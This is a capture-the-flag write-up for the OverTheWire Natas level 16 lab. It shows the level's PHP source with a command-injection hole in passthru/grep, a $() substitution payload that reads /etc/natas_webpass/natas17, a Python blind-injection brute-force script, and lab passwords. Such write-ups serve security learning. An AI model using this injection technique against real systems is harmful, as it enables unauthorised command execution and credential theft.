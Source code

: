 ```
password: WaIHEacj63wnNIBROHeqi3p9t0m5nh
password: WaIHEacj63wnNIBROHeqi3p9t0m5nhm
password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```

### natas16

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

Some certain characters was filtered, but we can use `$()` command in GNU to create payload:

`$(grep -E ^§a§.* /etc/natas_webpass/natas17)African`, -E is regex.

With above playload, first the application run `$(grep -E ^§a§.* /etc/natas_webpass/natas17)African`, return `'abcxyzAfrican'`, then run `$(grep -i 'abcxyzAfrican' dictionary.txt)`.

Because `'African'` is one word in dictionary.txt, if first command return `None` -> the second command run `$(grep -i 'African' dictionary.txt)` and show dictionary.

Vice versa, if first command return `123456African` -> the second command return `None`, because the word `123456African` isn't in dictionary.txt and don't show dictionary. Then we can confirm that `123456` is part of the password. Next we will use blind injection to get full password.

This following python code `natas16.py`:

```python
#!/usr/bin/python3
import requests
from string import ascii_letters, digits

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

characters = ascii_letters + digits
print('characters:', characters)

password = ''

for i in range(35):
    for char in characters:
        uri = "{}?needle=$(grep -E ^{}{}.* /etc/natas_webpass/natas17)African".format(url, password, char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'African' not in r.text:
            password += char
            print('password:', password)
            break
        else: 
            continue
```
